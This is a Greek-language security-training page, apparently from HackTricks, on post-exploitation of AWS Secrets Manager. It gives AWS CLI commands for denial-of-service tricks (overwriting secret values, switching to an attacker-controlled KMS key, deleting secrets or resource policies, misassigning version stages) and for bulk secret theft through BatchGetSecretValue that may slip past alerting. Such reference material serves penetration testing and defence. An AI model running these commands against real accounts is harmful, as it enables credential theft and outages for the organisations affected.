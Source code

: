 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Τα **secrets καθεαυτά είναι ευαίσθητες πληροφορίες**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) για να μάθετε πώς να τα διαβάσετε.

### DoS Change Secret Value

Η αλλαγή της τιμής του secret μπορεί να **DoS όλα τα συστήματα που εξαρτώνται από αυτή την τιμή.**

> [!WARNING]
> Σημειώστε ότι οι προηγούμενες τιμές αποθηκεύονται επίσης, οπότε είναι εύκολο απλά να επιστρέψετε στην προηγούμενη τιμή.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Εάν ο attacker έχει την άδεια secretsmanager:UpdateSecret, μπορεί να διαμορφώσει το secret ώστε να χρησιμοποιεί ένα KMS key που ανήκει στον attacker. Αυτό το key αρχικά έχει ρυθμιστεί με τέτοιο τρόπο ώστε ο οποιοσδήποτε να μπορεί να το προσπελάσει και να το χρησιμοποιήσει, οπότε η ενημέρωση του secret με το νέο key είναι δυνατή. Εάν το key δεν ήταν προσβάσιμο, το secret δεν θα μπορούσε να ενημερωθεί.

Μετά την αλλαγή του key για το secret, ο attacker τροποποιεί τη διαμόρφωση του key του έτσι ώστε μόνο εκείνος να έχει πρόσβαση. Με αυτόν τον τρόπο, στις επόμενες εκδόσεις του secret θα κρυπτογραφηθεί με το νέο key, και αφού δεν υπάρχει πρόσβαση σε αυτό, η δυνατότητα ανάκτησης του secret θα χαθεί.

Είναι σημαντικό να σημειωθεί ότι αυτή η μη προσβασιμότητα θα συμβεί μόνο σε μεταγενέστερες εκδόσεις, αφού αλλάξει το περιεχόμενο του secret, καθώς η τρέχουσα έκδοση εξακολουθεί να είναι κρυπτογραφημένη με το αρχικό KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Διαγραφή μυστικού

Ο ελάχιστος αριθμός ημερών για να διαγραφεί ένα μυστικό είναι 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Είναι δυνατόν να επαναφέρετε ένα secret, κάτι που επιτρέπει την επαναφορά secrets που έχουν προγραμματιστεί για διαγραφή, καθώς η ελάχιστη περίοδος διαγραφής για secrets είναι 7 ημέρες και η μέγιστη είναι 30 ημέρες. Σε συνδυασμό με την άδεια secretsmanager:GetSecretValue, αυτό καθιστά δυνατή την ανάκτηση του περιεχομένου τους.

Για να ανακτήσετε ένα secret που βρίσκεται σε διαδικασία διαγραφής, μπορείτε να χρησιμοποιήσετε την ακόλουθη εντολή:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Αυτή η ενέργεια επιτρέπει τη διαγραφή της πολιτικής πόρου που ελέγχει ποιος μπορεί να αποκτήσει πρόσβαση σε ένα secret. Αυτό μπορεί να οδηγήσει σε DoS εάν η πολιτική πόρου είχε διαμορφωθεί ώστε να επιτρέπει πρόσβαση σε ένα συγκεκριμένο σύνολο χρηστών.

Για να διαγράψετε την πολιτική πόρου:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Οι καταστάσεις ενός μυστικού χρησιμοποιούνται για τη διαχείριση των εκδόσεων ενός μυστικού. AWSCURRENT σηματοδοτεί την ενεργή έκδοση που χρησιμοποιούν οι εφαρμογές, AWSPREVIOUS διατηρεί την προηγούμενη έκδοση ώστε να μπορείτε να κάνετε επαναφορά αν χρειαστεί, και AWSPENDING χρησιμοποιείται στη διαδικασία rotation για να προετοιμάσει και να επικυρώσει μια νέα έκδοση πριν την καταστήσει την τρέχουσα.

Οι εφαρμογές διαβάζουν πάντα την έκδοση με AWSCURRENT. Αν κάποιος μετακινήσει αυτή την ετικέτα σε λάθος έκδοση, οι εφαρμογές θα χρησιμοποιήσουν άκυρα credentials και μπορεί να αποτύχουν.

AWSPREVIOUS δεν χρησιμοποιείται αυτόματα. Ωστόσο, αν το AWSCURRENT αφαιρεθεί ή ανατεθεί λανθασμένα, μπορεί να φαίνεται ότι όλα εξακολουθούν να τρέχουν με την προηγούμενη έκδοση.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Μαζική Εξαγωγή Secrets μέσω BatchGetSecretValue (έως 20 ανά κλήση)

Κατάχρηση του Secrets Manager BatchGetSecretValue API για να ανακτήσεις έως 20 secrets σε ένα αίτημα. Αυτό μπορεί να μειώσει δραματικά τον όγκο κλήσεων API σε σύγκριση με την επανάληψη του GetSecretValue για κάθε secret. Εάν χρησιμοποιούνται φίλτρα (tags/name), απαιτείται επίσης η άδεια ListSecrets. Το CloudTrail εξακολουθεί να καταγράφει ένα event GetSecretValue για κάθε secret που ανακτάται στο batch.

Απαιτούμενα δικαιώματα
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue για κάθε στοχευμένο secret
- secretsmanager:ListSecrets εάν χρησιμοποιείτε --filters
- kms:Decrypt στα CMKs που χρησιμοποιούνται από τα secrets (αν δεν χρησιμοποιείται aws/secretsmanager)

> [!WARNING]
> Σημειώστε ότι η άδεια `secretsmanager:BatchGetSecretValue` από μόνη της δεν επαρκεί για την ανάκτηση των secrets — χρειάζεστε επίσης `secretsmanager:GetSecretValue` για κάθε secret που θέλετε να ανακτήσετε.

Εξαγωγή μέσω ρητής λίστας
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate με φίλτρα (tag key/value ή name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Διαχείριση μερικών αποτυχιών
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Επιπτώσεις
- Γρήγορο “smash-and-grab” πολλών secrets με λιγότερες κλήσεις API, πιθανώς παρακάμπτοντας ειδοποιήσεις ρυθμισμένες για αιχμές του GetSecretValue.
- Τα CloudTrail logs εξακολουθούν να περιλαμβάνουν ένα GetSecretValue event ανά secret που ανακτήθηκε από το batch.
